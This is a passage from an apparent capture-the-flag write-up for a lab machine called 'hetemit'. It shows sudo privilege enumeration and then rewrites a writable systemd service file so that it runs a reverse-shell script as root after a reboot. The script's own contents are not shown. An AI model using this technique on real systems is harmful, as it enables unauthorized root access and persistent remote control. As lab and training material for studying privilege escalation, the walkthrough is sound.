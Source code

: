 ```bash
[cmeeks@hetemit ~]$ sudo -l    
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

This indicates that we can reboot and shutdown the computer.

#### Incorrect File Permissions

Let's check the contents of **pythonapp.service**.

```bash
[cmeeks@hetemit ~]$ cat /etc/systemd/system/pythonapp.service
cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Perfect. We can modify this file to escalate to root. We'll modify this file to run a reverse shell, then restart the system. Once the system restarts, our shell should run as a system service. Let's modify **pythonapp.service**.

```bash
[cmeeks@hetemit ~]$ cat <<'EOT'> /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOT
```
